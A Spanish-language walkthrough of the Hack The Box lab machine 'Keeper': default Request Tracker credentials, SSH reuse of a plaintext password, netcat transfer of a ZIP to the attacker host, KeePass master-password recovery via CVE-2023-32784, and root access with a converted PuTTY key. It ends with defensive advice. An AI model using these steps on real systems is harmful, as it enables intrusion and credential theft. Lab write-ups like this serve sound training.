# Keeper — Hack The Box

**Plataforma:** Hack The Box  
**Dificultad:** 🟢 Fácil  
**SO:** Linux  
**Autor de la máquina:** knightmare  
**Fecha de resolución:** 2026  
**Técnicas:** Nmap · Virtual Hosting · Request Tracker · Credenciales por defecto · KeePass · CVE-2023-32784 · Memory Dump · PuTTY PPK · SSH Key

---

## Índice

1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración del servicio web](#2-enumeración-del-servicio-web)
3. [Acceso inicial — Request Tracker con credenciales por defecto](#3-acceso-inicial--request-tracker-con-credenciales-por-defecto)
4. [Acceso por SSH y flag de usuario](#4-acceso-por-ssh-y-flag-de-usuario)
5. [Análisis del volcado de KeePass — CVE-2023-32784](#5-análisis-del-volcado-de-keepass--cve-2023-32784)
6. [Escalada de privilegios — Clave PuTTY del root](#6-escalada-de-privilegios--clave-putty-del-root)
7. [Post-explotación y flags](#7-post-explotación-y-flags)
8. [Lección aprendida](#8-lección-aprendida)

---

## 1. Reconocimiento

Comenzamos comprobando conectividad con la máquina objetivo mediante ICMP.

```bash
ping -c 1 10.129.37.47
```



Salida obtenida:

```text
64 bytes from 10.129.37.47: icmp_seq=1 ttl=63 time=33.5 ms
```

> 💡 El valor `TTL=63` suele indicar que estamos frente a una máquina **Linux** (TTL inicial 64 menos un salto de red).

---

### Escaneo inicial de puertos

Realizamos un escaneo completo de todos los puertos TCP con Nmap.

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.37.47 -oN AllPorts
```



### Explicación de parámetros utilizados

| Parámetro | Función |
|---|---|
| `-sS` | SYN Scan rápido y sigiloso |
| `-Pn` | Omite descubrimiento por ping |
| `-vvv` | Máximo nivel de verbosidad |
| `--min-rate 5000` | Fuerza una velocidad mínima de 5000 paquetes por segundo |
| `--open` | Muestra solo puertos abiertos |
| `-n` | Evita resolución DNS |
| `-p-` | Escanea los 65535 puertos TCP |
| `-oN` | Guarda el resultado en formato normal |

Resultado relevante:

```text
22/tcp open  ssh
80/tcp open  http
```

> 💡 Una superficie de ataque mínima (SSH + HTTP) concentra toda la enumeración inicial en el servicio web.

---

## 2. Enumeración del servicio web

Una vez identificados los puertos abiertos, realizamos un escaneo más profundo con detección de versiones y scripts NSE.

```bash
nmap -sS -sCV -T5 -p22,80 10.129.37.47 -oN Ports
```



### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `-sCV` | Ejecuta detección de versiones y scripts NSE |
| `-T5` | Timing agresivo para acelerar el escaneo |

Salida relevante:

```text
22/tcp open  ssh   OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http  nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

---

### Exploración del sitio web

Accedemos desde el navegador al puerto `80`.

```text
http://10.129.37.47
```

La página es minimalista: una única frase con un enlace.



```text
To raise an IT support ticket, please visit tickets.keeper.htb/rt/
```

Si intentamos visitar ese enlace directamente, el navegador no resuelve el dominio:



> 💡 La web usa **virtual hosting**: el servidor responde de forma distinta según el dominio (`Host:` header) que se le pida. Como no existe un DNS que resuelva `tickets.keeper.htb`, tenemos que mapearlo manualmente a la IP de la máquina.

---

### Mapeo del dominio en `/etc/hosts`

Editamos el fichero `/etc/hosts` de nuestra máquina atacante:

```bash
sudo nano /etc/hosts
```



Añadimos la línea:

```text
10.129.37.47    tickets.keeper.htb
```

> 💡 A partir de aquí, cualquier petición a `tickets.keeper.htb` desde nuestra máquina se dirige a la IP correcta y el `nginx` la sirve como el *virtual host* correspondiente.

---

## 3. Acceso inicial — Request Tracker con credenciales por defecto

Ahora sí podemos cargar la aplicación de tickets:

```text
http://tickets.keeper.htb/rt/
```



Se trata de **Request Tracker (RT)**, una conocida plataforma de gestión de tickets de soporte. La versión que indica el pie de página es `RT 4.4.4+dfsg-2ubuntu1`.

### Credenciales por defecto

Una búsqueda rápida sobre RT revela que toda instalación nueva trae **credenciales por defecto**:



```text
Usuario:    root
Contraseña: password
```

Probamos esas credenciales y accedemos directamente al panel de administración:



> 💡 `root` / `password` son las credenciales que Request Tracker crea durante la instalación. La documentación recomienda cambiarlas inmediatamente — un paso que con muchísima frecuencia se olvida. Acabamos de entrar como **administrador** de la plataforma sin explotar ninguna vulnerabilidad técnica.

---

### Enumeración de usuarios

Como administradores podemos listar y editar usuarios. Revisamos el perfil del usuario **lnorgaard** (`Lise Nørgaard`):



En el campo de comentarios del usuario hay una nota muy reveladora:

```text
New user. Initial password set to Welcome2023!
```

> 💡 RT guarda el comentario de creación del usuario en texto plano y visible para cualquier administrador. La contraseña inicial **`Welcome2023!`** nunca fue cambiada por el usuario.

---

## 4. Acceso por SSH y flag de usuario

Probamos las credenciales recuperadas contra el servicio SSH.

```bash
ssh lnorgaard@10.129.37.47
# Password: Welcome2023!
```



Accedemos correctamente. Listamos el contenido del home:

```bash
ls -la
```



Encontramos dos elementos clave:

```text
user.txt
RT30000.zip
```

La flag de usuario está disponible (`cat user.txt`). Pero el fichero **`RT30000.zip`** es lo verdaderamente interesante: lo necesitaremos para la escalada.

✅ Flag de usuario obtenida.

---

### Transferencia del ZIP a la máquina atacante

Movemos `RT30000.zip` a nuestro Kali usando Netcat.

**Atacante (escucha y guarda):**

```bash
nc -lvnp 443 > comprimido.zip
```

**Víctima (envía el fichero):**

```bash
nc 10.10.14.63 443 < RT30000.zip
```



Descomprimimos el archivo:

```bash
unzip comprimido.zip
```



El ZIP contiene dos ficheros:

| Fichero | Descripción |
|---|---|
| `passcodes.kdbx` | Base de datos de **KeePass** (gestor de contraseñas) |
| `KeePassDumpFull.dmp` | **Volcado de memoria** del proceso KeePass |

> 💡 La combinación de un `.kdbx` **junto a un volcado de memoria** del propio KeePass es la firma inconfundible de la vulnerabilidad **CVE-2023-32784**.

---

## 5. Análisis del volcado de KeePass — CVE-2023-32784

Si intentamos abrir `passcodes.kdbx` con KeePassXC, nos pide la contraseña maestra, que no tenemos:



### Descripción de la vulnerabilidad

**CVE-2023-32784** afecta a KeePass 2.x. Cuando el usuario escribe la **contraseña maestra**, KeePass deja en memoria restos de cada carácter tecleado. Analizando un volcado de memoria del proceso es posible **recuperar la contraseña maestra casi completa** — todos los caracteres excepto el primero.

### PoC

Usamos el PoC público de **matro7sh**:



```bash
git clone https://github.com/matro7sh/keepass-dump-masterkey.git
cd keepass-dump-masterkey
```



Lo ejecutamos contra el volcado de memoria:

```bash
python3 poc.py -d KeePassDumpFull.dmp
```



Salida:

```text
Possible password: ●,dgr●d med fl●de
```

> 💡 El primer carácter de cada palabra no se puede recuperar (se representa con `●`). La cadena parcial es `●,dgr●d med fl●de`. Es claramente una frase, no una contraseña aleatoria.

### Reconstrucción de la contraseña

Buscando la cadena parcial en internet, encontramos que se trata de un **postre danés tradicional**:



```text
rødgrød med fløde
```

> 💡 *"Rødgrød med fløde"* es un postre danés (gachas de bayas con nata). Encaja con el perfil del usuario `Lise Nørgaard`, cuyo idioma en RT estaba configurado como **danés**. La contraseña maestra completa es `rødgrød med fløde`.

### Apertura de la base de datos

Con esa contraseña abrimos `passcodes.kdbx` en KeePassXC:



Dentro encontramos una entrada llamada **"keeper.htb (Ticketing Server)"** con el usuario `root`. En el campo de notas hay algo aún más valioso que una contraseña:



> 💡 La entrada incluye, en el campo de notas, una **clave privada PuTTY** (formato `.ppk`) perteneciente al usuario `root`. Una clave SSH es un vector de acceso mucho más sólido que una contraseña.

---

## 6. Escalada de privilegios — Clave PuTTY del root

La clave que hemos extraído está en formato **PuTTY (`.ppk`)**, propio del cliente SSH de Windows. OpenSSH en Linux no la entiende directamente: hay que **convertirla** al formato `id_rsa` de OpenSSH.

Guardamos el contenido del campo de notas en un fichero (por ejemplo `key`) y consultamos la sintaxis de conversión:



La herramienta es `puttygen` (paquete `putty-tools`):



```bash
puttygen key -O private-openssh -o id_rsa
chmod 600 id_rsa
```



### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `key` | Fichero con la clave PuTTY (`.ppk`) extraída de KeePass |
| `-O private-openssh` | Formato de salida: clave privada OpenSSH |
| `-o id_rsa` | Nombre del fichero de salida |
| `chmod 600` | SSH exige permisos restrictivos en la clave privada |

### Acceso como root

Con la clave ya en formato OpenSSH, nos conectamos por SSH como `root`:

```bash
ssh -i id_rsa root@10.129.37.47
```



```text
root@keeper:~# whoami
root
```

✅ Compromiso total de la máquina.

---

## 7. Post-explotación y flags

Una vez dentro como `root`, recolectamos ambas flags:

```bash
cat /home/lnorgaard/user.txt
cat /root/root.txt
```

✅ Máquina completada.

---

## 8. Lección aprendida

`Keeper` demuestra que el eslabón más débil rara vez es un exploit sofisticado: aquí la cadena se sostiene sobre **credenciales por defecto** y **mala gestión de secretos**.

| Vulnerabilidad | Dónde | Impacto |
|---|---|---|
| Credenciales por defecto | Request Tracker (`root` / `password`) | Acceso administrativo a la plataforma |
| Contraseña inicial sin cambiar | Comentario del usuario `lnorgaard` | Movimiento lateral a SSH |
| Secretos en un ZIP accesible | `RT30000.zip` en el home del usuario | Exposición de la base de datos KeePass |
| **CVE-2023-32784** | Volcado de memoria de KeePass 2.x | Recuperación de la contraseña maestra |
| Clave SSH privada guardada en KeePass | Entrada "Ticketing Server" | Acceso directo como root |

---

## Recomendaciones defensivas

- **Cambiar siempre las credenciales por defecto** inmediatamente tras instalar cualquier software (Request Tracker, routers, paneles de administración…).
- No almacenar contraseñas iniciales en campos de texto plano visibles (los comentarios de RT son legibles por todos los administradores).
- Actualizar KeePass a la versión **2.54 o superior**, que corrige CVE-2023-32784.
- Nunca dejar volcados de memoria (`.dmp`) ni copias de bases de datos KeePass en ubicaciones accesibles por otros usuarios.
- Tratar las claves privadas SSH como secretos de máxima criticidad: cifrarlas con passphrase, no guardarlas dentro de gestores compartidos ni en notas.
- Aplicar segmentación y mínimo privilegio: la cuenta de un agente de soporte (`lnorgaard`) no debería tener acceso a material que permita escalar a `root`.
- Monitorizar accesos SSH con clave para la cuenta `root` y, preferiblemente, deshabilitar el login directo de root (`PermitRootLogin no`).

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*  
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
